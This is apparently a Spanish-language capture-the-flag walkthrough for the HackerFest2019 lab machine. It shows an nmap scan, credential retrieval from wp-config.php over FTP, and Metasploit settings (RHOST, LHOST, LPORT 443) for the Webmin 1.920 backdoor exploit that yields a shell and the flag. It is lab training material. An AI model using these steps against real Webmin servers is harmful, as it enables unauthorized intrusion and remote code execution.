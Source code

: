 # HackerFest2019 - Walkthrough



`nmap -sC -sV 192.168.153.32 -o nmap-scan`

**Escaneo de Puertos**

![](images/hackerfest2019/nmap1.png)

![](/images/hackerfest2019/nmap2.png)

Dentro de los archivos que existen dentro de FTP esta wp-config.php

**Extraccion de archivo de configuracion de wordpress**

![](/images/hackerfest2019/accesoftp.png)

**Revision del contenido de wp-config.php**

![](/images/hackerfest2019/wp-config.png)

No se puede acceder con estas credenciales ni via SSH ni en wp-admin. Otro vector de ataque seria utilizando un exploit para webmin

**Exploits sugeridos para Webmin**

![](/images/hackerfest2019/searchsploit.png)

![](/images/hackerfest2019/webmin.png)

**Configuracion en Rapid7**

![](/images/hackerfest2019/rapid7.png)

Se ingresa a metasploit los datos que se solicitan para el exploit.

+ RHOST 192.168.153.32
+ LHOST 192.168.49.153
+ LPORT 443
+ exploit target 0 
+ SSL true
+ forceexploit true

**Exploit**

![](/images/hackerfest2019/exploit.png)

**Flag{92bf511a#######################}**

## Referencias

+ **Pasos para ejecutar el exploit** https://www.rapid7.com/db/modules/exploit/linux/http/webmin_backdoor
+ **Exploit Webmin 1.920 -Remote Code Execution** https://www.exploit-db.com/exploits/47293
